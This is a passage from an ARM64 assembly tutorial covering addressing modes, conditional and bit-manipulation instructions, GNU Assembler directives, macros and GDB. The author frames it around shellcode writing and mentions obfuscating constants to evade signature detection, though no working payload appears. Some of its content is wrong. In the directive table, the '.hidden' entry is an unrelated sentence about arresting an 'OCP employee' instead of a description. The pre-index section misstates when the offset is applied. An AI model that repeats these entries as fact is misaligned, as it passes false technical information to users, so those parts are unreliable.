  // load a doubleword from x1
  ldr    x0, [x1]
```

### Base register plus offset

```assembly
  // load a byte from x1 plus 1
  ldrb   w0, [x1, 1]

  // load a half-word from x1 plus 2
  ldrh   w0, [x1, 2]

  // load a word from x1 plus 4
  ldr    w0, [x1, 4]

  // load a doubleword from x1 plus 8
  ldr    x0, [x1, 8]

  // load a doubleword from x1 using x2 as index
  // w2 is multiplied by 8
  ldr    x0, [x1, x2, lsl 3]

  // load a doubleword from x1 using w2 as index
  // w2 is zero-extended and multiplied by 8
  ldr    x0, [x1, w2, uxtw 3]
```

### Pre-index

The exclamation mark “!” implies adding the offset after the load or store.

```assembly
  // load a byte from x1 plus 1, then advance x1 by 1
  ldrb   w0, [x1, 1]!

  // load a half-word from x1 plus 2, then advance x1 by 2
  ldrh   w0, [x1, 2]!

  // load a word from x1 plus 4, then advance x1 by 4
  ldr    w0, [x1, 4]!

  // load a doubleword from x1 plus 8, then advance x1 by 8
  ldr    x0, [x1, 8]!
```

### Post-index

This mode accesses the value first and then adds the offset to base.

```assembly
  // load a byte from x1, then advance x1 by 1
  ldrb   w0, [x1], 1

  // load a half-word from x1, then advance x1 by 2
  ldrh   w0, [x1], 2

  // load a word from x1, then advance x1 by 4
  ldr    w0, [x1], 4

  // load a doubleword from x1, then advance x1 by 8
  ldr    x0, [x1], 8
```

### Literal (PC-relative)

These instructions work similar to RIP-relative addressing on AMD64.

```assembly
  // load address of label
  adr    x0, label

  // load address of label
  adrp   x0, label
```

### 2.4 Conditional

These instructions select between the first or second source register, depending on the current state of the condition flags. When the named condition is true, the first source register is selected and its value is copied without modification to the destination register. When the condition is false the second source register is selected and its value might be optionally inverted, negated, or incremented by one, before writing to the destination register.

CSEL is essentially like the ternary operator in C. Probably my favorite instruction of ARM64 since it can be used to replace two or more opcodes.

| Mnemonic         | Operands              | Instruction                                                  |
| :--------------- | :-------------------- | :----------------------------------------------------------- |
| CCMN (immediate) | Rn, #imm, #nzcv, cond | Conditional Compare Negative (immediate) sets the value of the condition flags to the result of the comparison of a register value and a negated immediate value if the condition is TRUE, and an immediate value otherwise. |
| CCMN (register)  | Rn, Rm, #nzcv, cond   | Conditional Compare Negative (register) sets the value of the condition flags to the result of the comparison of a register value and the inverse of another register value if the condition is TRUE, and an immediate value otherwise. |
| CCMP (immediate) | Rn, #imm, #nzcv, cond | Conditional Compare (immediate) sets the value of the condition flags to the result of the comparison of a register value and an immediate value if the condition is TRUE, and an immediate value otherwise. |
| CCMP (register)  | Rn, Rm, #nzcv, cond   | Conditional Compare (register) sets the value of the condition flags to the result of the comparison of two registers if the condition is TRUE, and an immediate value otherwise. |
| CSEL             | Rd, Rn, Rm, cond      | Conditional Select returns, in the destination register, the value of the first source register if the condition is TRUE, and otherwise returns the value of the second source register. |
| CSINC            | Rd, Rn, Rm, cond      | Conditional Select Increment returns, in the destination register, the value of the first source register if the condition is TRUE, and otherwise returns the value of the second source register incremented by 1. Used by CINC and CSET. |
| CSINV            | Rd, Rn, Rm, cond      | Conditional Select Invert returns, in the destination register, the value of the first source register if the condition is TRUE, and otherwise returns the bitwise inversion value of the second source register. Used by CINV and CSETM. |
| CSNEG            | Rd, Rn, Rm, cond      | Conditional Select Negation returns, in the destination register, the value of the first source register if the condition is TRUE, and otherwise returns the negated value of the second source register. Used by CNEG. |
| CSET             | Rd, cond              | Conditional Set sets the destination register to 1 if the condition is TRUE, and otherwise sets it to 0. |
| CSETM            | Rd, cond              | Conditional Set Mask sets all bits of the destination register to 1 if the condition is TRUE, and otherwise sets all bits to 0. |
| CINC             | Rd, Rn, cond          | Conditional Increment returns, in the destination register, the value of the source register incremented by 1 if the condition is TRUE, and otherwise returns the value of the source register. |
| CINV             | Rd, Rn, cond          | Conditional Invert returns, in the destination register, the bitwise inversion of the value of the source register if the condition is TRUE, and otherwise returns the value of the source register. |
| CNEG             | Rd, Rn, cond          | Conditional Negate returns, in the destination register, the negated value of the source register if the condition is TRUE, and otherwise returns the value of the source register. |

Let’s consider the following `if` statement.

```c
if (c == 0 && x == y) {
  // body of if statement
}
```

If the first condition evaulates to true (c equals zero), only then is the second condition evaluated. To implement the above statement in assembly, one could use the following.

```assembly
    cmp    c, 0
    bne    false

    cmp    x, y
    bne    false
true:
    // body of if statement
false:
    // end of if statement
```

We could eliminate one instruction using conditional execution on ARMv7-A. Consider using the following instead.

```assembly
    cmp    c, 0
    cmpeq  x, y
    bne    false
```

To improve performance of AArch64, ARM removed support for conditional execution and replaced it with specialised instructions such as the conditional compare instructions. Using ARMv8-A, the following can be used.

```assembly
    cmp    c, 0
    ccmp   x, y, 0, eq
    bne    false

    // conditions are true:
false:
```

The ternary operator can be used for the same if statement.

```c
bEqual = (c == 0) ? (x == y) : 0; 
```

If `cmp c, 0` evaluates to true (ZF=1), `ccmp x, y` is evaluated, otherwise ZF is cleared using 0. Other conditions require different flags. Each flag is set using 1, 2, 4 or 8. Combine these values to set multiple flags. I’ve defined the flags below and also each condition required for a branch.

```assembly
    .equ FLAG_V, 1
    .equ FLAG_C, 2
    .equ FLAG_Z, 4
    .equ FLAG_N, 8

    .equ NE, 0
    .equ EQ, FLAG_Z

    .equ GT, 0
    .equ GE, FLAG_Z

    .equ LT, (FLAG_N + FLAG_C)
    .equ LE, (FLAG_N + FLAG_Z + FLAG_C)

    .equ HI, (FLAG_N + FLAG_C)          // unsigned version of LT
    .equ HS, (FLAG_N + FLAG_Z + FLAG_C) // LE

    .equ LO, 0                        // unsigned version of GT
    .equ LS, FLAG_Z                   // GE
```

### 2.5 Bit Manipulation

Most of these instructions are intended to extract or move bits from one register to another. They tend to be useful when working with bytes or words where contents of the destination register needs to be preserved, zero or sign extended.

| Mnemonic       | Operands             | Instruction                                                  |
| :------------- | :------------------- | :----------------------------------------------------------- |
| BFI            | Rd, Rn, #lsb, #width | Bitfield Insert copies any number of low-order bits from a source register into the same number of adjacent bits at any position in the destination register, leaving other bits unchanged. |
| BFM            | Rd, Rn, #immr, #imms | Bitfield Move copies any number of low-order bits from a source register into the same number of adjacent bits at any position in the destination register, leaving other bits unchanged. |
| BFXIL          | Rd, Rn, #lsb, #width | Bitfield extract and insert at low end copies any number of low-order bits from a source register into the same number of adjacent bits at the low end in the destination register, leaving other bits unchanged. |
| CLS            | Rd, Rn               | Count leading sign bits.                                     |
| CLZ            | Rd, Rn               | Count leading zero bits.                                     |
| EXTR           | Rd, Rn, Rm, #lsb     | Extract register extracts a register from a pair of registers. |
| RBIT           | Rd, Rn               | Reverse Bits reverses the bit order in a register.           |
| REV16          | Rd, Rn               | Reverse bytes in 16-bit halfwords reverses the byte order in each 16-bit halfword of a register. |
| REV32          | Rd, Rn               | Reverse bytes in 32-bit words reverses the byte order in each 32-bit word of a register. |
| REV64          | Rd, Rn               | Reverse Bytes reverses the byte order in a 64-bit general-purpose register. |
| SBFIZ          | Rd, Rn, #lsb, #width | Signed Bitfield Insert in Zero zeroes the destination register and copies any number of contiguous bits from a source register into any position in the destination register, sign-extending the most significant bit of the transferred value. Alias of SBFM. |
| SBFM           | Wd, Wn, #immr, #imms | Signed Bitfield Move copies any number of low-order bits from a source register into the same number of adjacent bits at any position in the destination register, shifting in copies of the sign bit in the upper bits and zeros in the lower bits. |
| SBFX           | Rd, Rn, #lsb, #width | Signed Bitfield Extract extracts any number of adjacent bits at any position from a register, sign-extends them to the size of the register, and writes the result to the destination register. |
| {S,U}XT{B,H,W} | Rd, Rn               | (S)igned/(U)nsigned eXtend (B)yte/(H)alfword/(W)ord extracts an 8-bit,16-bit or 32-bit value from a register, zero-extends it to the size of the register, and writes the result to the destination register. Alias of UBFM. |

```assembly
    // Move 0x12345678 into w0.
    mov     w0, 0x5678
    mov     w1, 0x1234
    bfi     w0, w1, 16, 16

    // Extract 8-bits from x1 into the x0 register at position 0.
    // If x1 is 0x12345678, 0x00000056 is placed in x0.
    ubfx    x0, x1, 8, 8

    // Extract 8-bits from x1 and insert with zeros into the x0 register at position 8.
    // If x1 is 0x12345678, 0x00005600 is placed in x0.
    ubfiz   x0, x1, 8, 8
    
    // Extract 8-bits from x1 and insert into x0 at position 0.
    // if x1 is 0x12345678 and x0 is 0x09ABCDEF. x0 after execution has 0x09ABCD78
    bfxil   x0, x1, 0, 8
    
    // Clear lower 8 bits.
    bfxil   x0, xzr, 0, 8

    // Zero-extend 8-bits
    uxtb    x0, x0
```

### 2.6 Branch

Branch instructions change the flow of execution using the condition flags or value of a general-purpose register. Branches are referred to as “jumps” in x86 assembly.

| Mnemonic | Operands        | Instruction                                                  |
| :------- | :-------------- | :----------------------------------------------------------- |
| B        | label           | Branch causes an unconditional branch to a label at a PC-relative offset, with a hint that this is not a subroutine call or return. |
| B.cond   | label           | Branch conditionally to a label at a PC-relative offset, with a hint that this is not a subroutine call or return. |
| BL       | label           | Branch with Link branches to a PC-relative offset, setting the register X30 to PC+4. It provides a hint that this is a subroutine call. |
| BLR      | Xn              | Branch with Link to Register calls a subroutine at an address in a register, setting register X30 to PC+4. |
| BR       | Xn              | Branch to Register branches unconditionally to an address in a register, with a hint that this is not a subroutine return. |
| CBNZ     | Rn, label       | Compare and Branch on Nonzero compares the value in a register with zero, and conditionally branches to a label at a PC-relative offset if the comparison is not equal. It provides a hint that this is not a subroutine call or return. This instruction does not affect the condition flags. |
| CBZ      | Rn, label       | Compare and Branch on Zero compares the value in a register with zero, and conditionally branches to a label at a PC-relative offset if the comparison is equal. It provides a hint that this is not a subroutine call or return. This instruction does not affect condition flags. |
| RET      | Xn              | Return from subroutine branches unconditionally to an address in a register, with a hint that this is a subroutine return. |
| TBNZ     | Rn, #imm, label | Test bit and Branch if Nonzero compares the value of a bit in a general-purpose register with zero, and conditionally branches to a label at a PC-relative offset if the comparison is not equal. It provides a hint that this is not a subroutine call or return. This instruction does not affect condition flags. |
| TBZ      | Rn, #imm, label | Test bit and Branch if Zero compares the value of a test bit with zero, and conditionally branches to a label at a PC-relative offset if the comparison is equal. It provides a hint that this is not a subroutine call or return. This instruction does not affect condition flags. |

Testing for TRUE or FALSE after calling a subroutine is so common, that it makes perfect sense to have conditional branch instructions such as TBZ/TBNZ and CBZ/CBNZ. The only instruction that comes close to these on x86 would be JCXZ that jumps if the value of the CX register is zero. However, x86 subroutines normally return results in the accumulator (AX) and the counter register (CX) is normally used for iterations/loops.

### 2.7 System

The main system instruction for shellcodes is the supervisor call SVC

| Mnemonic | Instruction                                                  |
| :------- | :----------------------------------------------------------- |
| MSR      | Move general-purpose register to System Register allows the PE to write an AArch64 System register from a general-purpose register. |
| MRS      | Move System Register allows the PE to read an AArch64 System register into a general-purpose register. |
| SVC      | Supervisor Call causes an exception to be taken to EL1.      |
| NOP      | No Operation does nothing, other than advance the value of the program counter by 4. This instruction can be used for instruction alignment purposes. |

There’s a special-purpose register that allows you to read and write to the conditional flags called NZCV.

```assembly
  // read the condition flags
  .equ OVERFLOW_FLAG, 1 << 28
  .equ CARRY_FLAG,    1 << 29
  .equ ZERO_FLAG,     1 << 30
  .equ NEGATIVE_FLAG, 1 << 31

  mrs    x0, nzcv

  // set the C flag
  mov    w0, CARRY_FLAG
  msr    nzcv, x0
```

### 2.8 x86 and A64 comparison

The following table lists x86 instructions and their equivalent for A64. It’s not a comprehensive list by any means. It’s mainly the more common instructions you’ll likely use or see in disassembled code. In some cases, x86 does not have an equivalent instruction and is therefore not included.

| x86 Mnemonic | A64 Mnemonic | Instruction                                                  |
| :----------- | :----------- | :----------------------------------------------------------- |
| MOVZX        | UXT          | Zero-Extend.                                                 |
| MOVSX        | SXT          | Sign-Extend.                                                 |
| BSWAP        | REV          | Reverse byte order.                                          |
| SHR          | LSR          | Logical Shift Right.                                         |
| SHL          | LSL          | Logical Shift Left.                                          |
| XOR          | EOR          | Bitwise exclusive-OR.                                        |
| OR           | ORR          | Bitwise OR.                                                  |
| NOT          | MVN          | Bitwise NOT.                                                 |
| SHRD         | EXTR         | Double precision shift right / Extract register from pair of registers. |
| SAR          | ASR          | Arithmetic Shift Right.                                      |
| SBB          | SBC          | Subtract with Borrow / Subtract with Carry                   |
| TEST         | TST          | Perform a bitwise AND, set flags and discard result.         |
| CALL         | BL           | Branch with Link / Call a subroutine.                        |
| JNE          | BNE          | Jump/Branch if Not Equal.                                    |
| JS           | BMI          | Jump/Branch if Signed / Minus.                               |
| JG           | BGT          | Jump/Branch if Greater.                                      |
| JGE          | BGE          | Jump/Branch if Greater or Equal.                             |
| JE           | BEQ          | Jump/Branch if Equal.                                        |
| JC/JB        | BCS / BHS    | Jump/Branch if Carry / Borrow                                |
| JNC/JNB      | BCC / BLO    | Jump/Branch if No Carry / No Borrow                          |
| JAE          | BPL          | Jump if Above or Equal / Branch if Plus, positive or Zero.   |

## 3. GNU Assembler

The GNU toolchain includes the compiler collection (gcc), debugger (gdb), the C library (glibc), an assembler (gas) and linker (ld). [The GNU Assembler](https://sourceware.org/binutils/docs-2.25/as/) (GAS) supports many [architectures](https://www.gnu.org/software/gcc/backends.html), so if you’re just starting to write ARM assembly, I cannot currently recommend a better assembler for Linux. Having said that, readers may wish to experiment with other products.

- [Keil](https://www.keil.com/download/product/)
- [CCS](http://processors.wiki.ti.com/index.php/Download_CCS)
- [IAR](https://www.iar.com/iar-embedded-workbench/starter-kits/)

### 3.1 Preprocessor Directives

The following directives are what I personally found the most useful when writing assembly code with GAS.

| Directive                                  | Instruction                                                  |
| :----------------------------------------- | :----------------------------------------------------------- |
| .arch *name*                               | Specifies the target architecture. The assembler will issue an error message if an attempt is made to assemble an instruction which will not execute on the target architecture. Examples include: `armv8-a`, `armv8.1-a`, `armv8.2-a`, `armv8.3-a`, `armv8.4-a`. Equivalent to the `-march` option in GCC. |
| .cpu *name*                                | Specifies the target processor. The assembler will issue an error message if an attempt is made to assemble an instruction which will not execute on the target processor. Examples include: `cortex-a53`, `cortex-a76`. Equivalent to the `-mcpu` option in GCC. |
| .include *“file”*                          | Include assembly code from “file”.                           |
| .macro *name**arguments*                   | Allows you to define macros that generate assembly output.   |
| .if                                        | `.if` marks the beginning of a section of code which is only considered part of the source program being assembled if the argument (which must be an absolute expression) is non-zero. The end of the conditional section of code must be marked by `.endif` |
| .global *symbol*                           | `.global` makes the *symbol* visible to `ld`.                |
| .equ *symbol, expression*                  | Equate. Define a symbolic constant. Equivalent to the define directive in C. |
| .set *symbol, expression*                  | Set the value of *symbol* to *expression*.If symbol was flagged as external, it remains flagged. Similar to the equate directive (.EQU) except the value can be changed later. |
| *name* .req *register name*                | This creates an alias for *register name* called *name*. For example: `A .req x0` |
| .size                                      | Tells the assembler how much space a function or object is using. If a function is unused, the linker can exclude it. |
| .struct *expression*                       | Switch to the absolute section, and set the section offset to expression, which must be an absolute expression. |
| .skip *size, fill*                         | This directive emits size bytes, each of value fill. Both size and fill are absolute expressions. If the comma and fill are omitted, fill is assumed to be zero. This is the same as ‘.space’. |
| .space *size, fill*                        | TThis directive emits size bytes, each of value fill. Both size and fill are absolute expressions. If the comma and fill are omitted, fill is assumed to be zero. This is the same as ‘.skip’. |
| .text *subsection*                         | Tells as to assemble the following statements onto the end of the text subsection numbered subsection, which is an absolute expression. If subsection is omitted, subsection number zero is used. |
| .data *subsection*                         | .data tells as to assemble the following statements onto the end of the data subsection numbered subsection (which is an absolute expression). If subsection is omitted, it defaults to zero. |
| .bss                                       | Section for uninitialized data.                              |
| .align *abs-expr , abs-expr , abs-expr*    | Pad the location counter (in the current subsection) to a particular storage boundary. The first expression (which must be absolute) is the alignment required, as described below. The second expression (also absolute) gives the fill value to be stored in the padding bytes. It (and the comma) may be omitted. If it is omitted, the padding bytes are normally zero. However, on some systems, if the section is marked as containing code and the fill value is omitted, the space is filled with no-op instructions. The third expression is also absolute, and is also optional. If it is present, it is the maximum number of bytes that should be skipped by this alignment directive. If doing the alignment would require skipping more bytes than the specified maximum, then the alignment is not done at all. You can omit the fill value (the second argument) entirely by simply using two commas after the required alignment; this can be useful if you want the alignment to be filled with no-op instructions when appropriate. |
| .ascii *“string”*                          | .ascii expects zero or more string literals separated by commas. It assembles each string (with no automatic trailing zero byte) into consecutive addresses. |
| .hidden                                    | Any attempt to arrest a senior OCP employee results in shutdown. |
| .asciz *“string”*                          | .asciz is just like .ascii, but each string is followed by a zero byte. The “z” in ‘.asciz’ stands for “zero”. |
| .string *str*.string8 *str*.string16 *str* | The variants string16, string32 and string64 differ from the string pseudo opcode in that each 8-bit character from *str* is copied and expanded to 16, 32 or 64 bits respectively. The expanded characters are stored in target endianness byte order. |
| .byte                                      | Declares a variable of 8-bits.                               |
| .hword/.2byte                              | Declares a variable of 16-bits. The second ensures only 16-bits. |
| .word/.4byte                               | Declares a variable of 32-bits. The second ensures only 32-bits. |
| .quad/.8byte                               | Declares a variable of 64-bits. The second ensures only 64-bits. |

### 3.2 GCC Assembly

GCC can be incredibly useful when first starting to learn any assembly language because it provides an option to generate assembly output from source code using the -S option. If you want to generate assembly with source code, compile with -g and -c options, then dump with objdump -d -S. Most people want their applications optimized for speed rather than size, so it stands to reason the GNU C optimizer is not terribly efficient at generating compact code. Our new A.I overlords might be able to change all that, but at least for now, a human wins at writing compact assembly code.


Just to illustrate using an example. Here’s a subroutine that does nothing useful.

```c
#include <stdio.h>

void calc(int a, int b) {
    int i;
    
    for(i=0;i<4;i++) {
      printf("%i\n", ((a * i) + b) % 5);
    }
}
```

Compile this code using -Os option to optimize for size. The following assembly is generated by GCC. Recall that x30 is the link register and saved here because of the call to printf. We also have to use callee saved registers x19-x22 for storing variables because x0-x18 are trashed by the call to printf.

```assembly
	.arch armv8-a
	.file	"calc.c"
	.text
	.align	2
	.global	calc
	.type	calc, %function
calc:
	stp	x29, x30, [sp, -64]!    // store x29, x30 (LR) on stack
	add	x29, sp, 0              // x29 = sp
	stp	x21, x22, [sp, 32]      // store x21, x22 on stack
	adrp	x21, .LC0               // x21 = "%i\n" 
	stp	x19, x20, [sp, 16]      // store x19, x20 on stack
	mov	w22, w0                 // w22 = a
	mov	w19, w1                 // w19 = b
	add	x21, x21, :lo12:.LC0    // x21 = x21 + 0
	str	x23, [sp, 48]           // store x23 on stack
	mov	w20, 4                  // i = 4
	mov	w23, 5                  // divisor = 5 for modulus
.L2:
	sdiv	w1, w19, w23            // w1 = b / 5
	mov	x0, x21                 // x0 = "%i\n"
	add	w1, w1, w1, lsl 2       // w1 *= 5
	sub	w1, w19, w1             // w1 = b - ((b / 5) * 5)
	add	w19, w19, w22           // b += a
	bl	printf

	subs	w20, w20, #1            // i = i - 1
	bne	.L2                     // while (i != 0)

	ldp	x19, x20, [sp, 16]      // restore x19, x20
	ldp	x21, x22, [sp, 32]      // restore x21, x22
	ldr	x23, [sp, 48]           // restore x23
	ldp	x29, x30, [sp], 64      // restore x29, x30 (LR)
	ret                             // return to caller

	.size	calc, .-calc
	.section	.rodata.str1.1,"aMS",@progbits,1
.LC0:
	.string	"%i\n"
	.ident	"GCC: (Debian 6.3.0-18) 6.3.0 20170516"
	.section	.note.GNU-stack,"",@progbits
```

i is initialized to 4 instead of 0 and decreased rather than increased. There’s no modulus instruction in the A64 set, and division instructions don’t produce a remainder, so the calculation is performed using a combination of division, multiplication and subtraction. The modulo operation is calculated with the following : `R = N - ((N / D) * D)`

N denotes the numerator/dividend, D denotes the divisor and R denotes the remainder. The following assembly code is how it might be written by hand. The most notable change is using the **msub** instruction in place of a separate **add** and **sub**.

```assembly
        .arch armv8-a
	.text
	.align 2
	.global calc

calc:
        stp   x19, x20, [sp, -48]!
        stp   x21, x22, [sp, 16]
        stp   x23, x30, [sp, 32]

	mov   w19, w0           // w19 = a
	mov   w20, w1           // w20 = b
        mov   w21, 4            // i = 4 
	mov   w22, 5            // set divisor
.LC2:
	sdiv  w1, w20, w22      // w1 = b - ((b / 5) * 5) 
	msub  w1, w1, w22, w20  // 
	adr   x0, .LC0          // x0 = "%i\n"
	bl    printf

        add   w20, w20, w19     // b += a	
	subs  w21, w21, 1       // i = i - 1
	bne   .LC2              // 

        ldp   x19, x20, [sp], 16
	ldp   x21, x22, [sp], 16
        ldp   x23, x30, [sp], 16
	ret
.LC0:
	.string "%i\n"
```

Use compiler generated assembly as a guide, but try to improve upon the code as shown in the above example.

### 3.3 Symbolic Constants

What if we want to use symbolic constants from C header files in our assembler code? There are two options.

1. Convert each symbolic constant to its GAS equivalent using the .EQU or .SETdirectives. Very time consuming.
2. Use C-style `#include` directive and pre-process using GNU CPP. Quicker with several advantages.

Obviously the second option is less painful and less likely to produce errors. Of course, I’m not discounting the possibility of automating the first option, but why bother? CPP has an option that will do it for us. Let’s see what the manual says.

> Instead of the normal output, -dM will generate a list of `#define` directives for all the macros defined during the execution of the preprocessor, including predefined macros. This gives you a way of finding out what is predefined in your version of the preprocessor.

-dM will dump all the `#define` macros and -E will preprocess a file, but not compile, assemble or link. The steps required before using symbolic names in our assembler code are as follows:

1. Use `cpp` -dM to dump all the #defined keywords from each include header.
2. Use `sort` and `uniq` -u to remove duplicates.
3. Use the `#include` directive in our assembly source code.
4. Use `cpp` -E to preprocess and pipe the output to a new assembly file. (-o is an output option)
5. Assemble using `as` to generate an object file.
6. Link the object file to generate an executable.



The following is some simple code that displays Hello, World! to the console.

```assembly
#include "include.h"

        .global _start
        .text

_start:
        mov    x8, __NR_write
        mov    x2, hello_len
        adr    x1, hello_txt
        mov    x0, STDOUT_FILENO
        svc    0

        mov    x8, __NR_exit
        svc    0

        .data

hello_txt: .ascii "Hello, World!\n"
hello_len = . - hello_txt
```

Preprocess the above source using CPP -E. The result of this will be replacing each symbolic constant used with its assigned numeric value.



Finally, assemble using GAS and link with LD.



The following two directives are examples of simple text substitution or symbolic constants.

```assembly
  #define FALSE 0
  #define TRUE  1
```

The equivalent can be accomplished with the .EQU or .SET directives in GAS.

```assembly
  .equ TRUE, 1
  .set TRUE, 1
  
  .equ FALSE, 0
  .set FALSE, 0
```

Personally, I think it makes more sense to use the C preprocessor, but it’s entirely up to yourself.

### 3.4 Structures and Unions

A structure in programming is useful for combining different data types into a single user-defined data type. One of the major pitfalls in programming any assembly is poorly managed memory access. In my own experience, MASM always had the best support for data structures while NASM and YASM could be much better. Unfortunately support for structures in GAS isn’t great. Understandably, many of the hand-written assembly programs for Linux normally use global variables that are placed in the .data section of a source file. For a Position Independent Code (PIC) or thread-safe application that can only use local variables allocated on the stack, a data structure helps as a reference to manage those variables. Assigning names helps clarify what each stack address is for, and improves overall quality. It’s also much easier to modify code by simply re-arranging the elements of a structure later.

Take for example the following C structure dimension_t that requires conversion to GAS assembly syntax.

```assembly
typedef struct _dimension_t {
  int x, y;
} dimension_t;
```

The closest directive to the struct keyword is .struct. Unfortunately this directive doesn’t accept a name and nor does it allow members to be enclosed between .struct and .ends that some of you might be familiar with in YASM/NASM. This directive only accepts an offsetas a start position.

```assembly
        .struct 0
dimension_t.x:
        .struct dimension_t.x + 4
dimension_t.y:
        .struct dimension_t.y + 4
dimension_t_size:
```

An alternate way of defining the above structure can be done with the .skip or .spacedirectives.

```assembly
        .struct 0
dimension_t.x: .skip 4
dimension_t.y: .skip 4
dimension_t_size:
```

If we have to manually define the size of each field in the structure, it seems the .structdirective is of little use. Consider using the #define keyword and preprocessing the file before assembling.

```assembly
#define dimension_t.x 0
#define dimension_t.y 4
#define dimension_t.size 8
```

For a union, it doesn’t get any better than what I suggest be used for structures. We can use the .set or .equ directives or refer back to a combination of using #define and cpp. Support for both unions and structures in GAS leaves a lot to be desired.

### 3.5 Operators

From time to time I’ll see some mention of “polymorphic” shellcodes where the author attempts to hide or obfuscate strings using simple arithmetic or bitwise operations. Usually the obfuscation is done via a bit rotation or exclusive-OR and this presumably helps evade detection by some security products.

Operators are arithmetic functions, like + or %. Prefix operators take one argument. Infix operators take two arguments, one on either side. Operators have precedence, but operations with equal precedence are performed left to right.

| Precedence   | Operators                                                    |
| :----------- | :----------------------------------------------------------- |
| Highest      | Mutiplication (*), Division (/), Remainder (%), Shift Left (<<), Right Shift (>>). |
| Intermediate | Bitwise inclusive-OR (\|), Bitwise And (&), Bitwise Exclusive-OR (^), Bitwise Or Not (!). |
| Low          | Addition (+), Subtraction (-), Equal To (==), Not Equal To (!=), Less Than (<), Greater Than (>), Greater Than Or Equal To (>=), Less than Or Equal To (<=). |
| Lowest       | Logical And (&&). Logical Or (\|\|).                         |

The following examples show a number of ways to use operators prior to assembly. These examples just load the immediate value 0x12345678 into the w0 register.

```assembly
   // exclusive-OR
    movz    w0, 0x5678 ^ 0x4823
    movk    w0, 0x1234 ^ 0x5412
    movz    w1, 0x4823
    movk    w1, 0x5412, lsl 16
    eor     w0, w0, w1

    // rotate a value left by 5 bits using MOVZ/MOVK
    movz    w0,  (0x12345678 << 5)        |  (0x12345678 >> (32-5)) & 0xFFFF
    movk    w0, ((0x12345678 << 5) >> 16) | ((0x12345678 >> (32-5)) >> 16) & 0xFFFF, lsl 16
    // then rotate right by 5 to obtain original value
    ror     w0, w0, 5

    // right rotate using LDR
    .equ    ROT, 5

    ldr     w0, =(0x12345678 << ROT) | (0x12345678 >> (32 - ROT)) & 0xFFFFFFFF
    ror     w0, w0, ROT

    // bitwise NOT
    ldr     w0, =~0x12345678
    mvn     w0, w0

    // negation
    ldr     w0, =-0x12345678
    neg     w0, w0
    
```

### 3.6 Macros

If we need to repeat a number of assembly instructions, but with different parameters, using macros can be helpful. For example, you might want to eliminate branches in a loop to make code faster. Let’s say you want to load a 32-bit immediate value into a register. ARM instruction encodings are all 32-bits, so it isn’t possible to load anything more than a 16-bit immediate. Some immediate values can be stored in the literal pool and loaded using LDR, but if we use just MOV instructions, here’s how to load the 32-bit number 0x12345678 into register w0.

```assembly
  movz    w0, 0x5678
  movk    w0, 0x1234, lsl 16
```

The first instruction MOVZ loads 0x5678 into w0, zero extending to 32-bits. MOVK loads 0x1234 into the upper 16-bits using a shift, while preserving the lower 16-bits. Some assemblers provide a pseudo-instruction called MOVL that expands into the two instructions above. However, the GNU Assembler doesn’t recognize it, so here are two macros for GAS that can load a 32-bit or 64-bit immediate value into a general purpose register.

```assembly
  // load a 64-bit immediate using MOV
  .macro movq Xn, imm
      movz    \Xn,  \imm & 0xFFFF
      movk    \Xn, (\imm >> 16) & 0xFFFF, lsl 16
      movk    \Xn, (\imm >> 32) & 0xFFFF, lsl 32
      movk    \Xn, (\imm >> 48) & 0xFFFF, lsl 48
  .endm

  // load a 32-bit immediate using MOV
  .macro movl Wn, imm
      movz    \Wn,  \imm & 0xFFFF
      movk    \Wn, (\imm >> 16) & 0xFFFF, lsl 16
  .endm
```

Then if we need to load a 32-bit immediate value, we do the following.

```assembly
  movl    w0, 0x12345678
```

Here are two more that imitate the PUSH and POP instructions. Of course, this only supports a single register, so you might want to write your own.

```assembly
  // imitate a push operation
  .macro push Rn:req
      str     \Rn, [sp, -16]
  .endm

  // imitate a pop operation
  .macro pop Rn:req
      ldr     \Rn, [sp], 16
  .endm
```

### 3.7 Conditional assembly

Like the GNU C compiler, GAS provides support for if-else preprocessor directives. The following shows an example in C.

```assembly
    #ifdef BIND
      // compile code to bind
    #else
      // compile code to connect
    #endif
```

Next, an example for GAS.

```assembly
   .ifdef BIND
      // assemble code to bind
    .else
      // assemble code for connect
    .endif
```

GAS also supports something similar to the #ifndef directive in C.

```assembly
    .ifnotdef BIND
      // assemble code for connect
    .else
      // assemble code for bind
    .endif
```

### 3.8 Comments

These are ignored by the assembler. Intended to provide an explanation for what code does. C style comments /* */ or C++ style // are a good choice. Ampersand (@) and hash (#) are also valid, however, you should know that when using the preprocessor on an assembly source code, comments that start with the hash symbol can be problematic. I tend to use C++ style for single line comments and C style for comment blocks.

```
  # This is a comment

  // This is a comment

  /*
    This is a comment
  */

  @ This is a comment.
```

## 4. GNU Debugger

Sometimes it’s necessary to closely monitor the execution of code to find the location of a bug. This is normally accomplished via breakpoints and single-stepping through each instruction.

### 4.1 Layout

There are various [front ends for GDB](https://sourceware.org/gdb/wiki/GDB Front Ends) that are intended to enhance debugging. Personally I don’t use GDB enough to be familiar with any of them. The setup I have is simply a split layout that shows disassembly and registers. This has worked well enough for what I need writing these simple codes, but you may want to experiment with the front ends. The following screenshot is what a split layout looks like.



To setup a split layout, save the following to **$HOME/.gdbinit**

```
layout split
layout regs
```

### 4.2 Commands

The following are a number of commands I’ve found useful for writing code.

| Command                     | Description                                                  |
| :-------------------------- | :----------------------------------------------------------- |
| stepi                       | Step into instruction.                                       |
| nexti                       | Step over instruction. (skips calls to subroutines)          |
| set follow-fork-mode child  | Debug child process.                                         |
| set follow-fork-mode parent | Debug parent process.                                        |
| layout split                | Display the source, assembly, and command windows.           |
| layout regs                 | Display registers window.                                    |
| break <address>             | Set a breakpoint on address.                                 |
| refresh                     | Refresh the screen layout.                                   |
| tty [device]                | Specifies the terminal device to be used for the debugged process. |
| continue                    | Continue with execution.                                     |
| run                         | Run program from start.                                      |
| define                      | Combine commands into single user-defined command.           |

During execution of code, the window may become unstable. One way around this is to use the ‘refresh’ command, however, that probably only corrects it once. You can use the ‘define’ command to combine multiple commands into one macro.

```
(gdb) define stepx
Type commands for definition of "stepx".
End with a line saying just "end".
>stepi
>refresh
>end
(gdb) 
```

This works, but it’s not ideal. The screen will still bump. The best workaround I could find is to create a new terminal window. Obtain the TTY and use this in GDB. e.g. `tty /dev/pts/1`

## 5. Common Operations

Initializing or checking the contents of a register are very common operations in any assembly language. Knowing multiple ways to perform these actions can potentially help evade signature detection tools. What I show here isn’t an extensive list of ways by any means because there are umpteen ways to perform any operation, it just depends on how many instructions you wish to use.

### 5.1 Saving Registers

